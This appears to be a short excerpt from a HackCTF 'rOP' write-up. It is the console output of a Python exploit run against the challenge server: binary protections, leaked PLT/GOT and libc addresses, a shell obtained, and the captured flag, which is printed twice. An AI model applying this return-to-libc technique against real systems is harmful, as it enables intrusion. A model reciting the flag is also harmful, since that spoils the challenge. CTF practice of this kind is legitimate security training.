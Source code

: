 ```
pocas@pocas-VirtualBox:~/pwn/HackCTF/rOP$ python exploit.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3021: Done
[*] '/home/pocas/pwn/HackCTF/rOP/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] write@plt : 0x8048340
[*] write@got : 0x804a018
[*] read@plt : 0x8048310
[*] read@got : 0x804a00c
[*] libc_base addr : 0xf7dbb000
[*] system addr : 0xf7df5940
[*] Switching to interactive mode
$ cat flag
HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}
$  
```

> FLAG : HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}

---
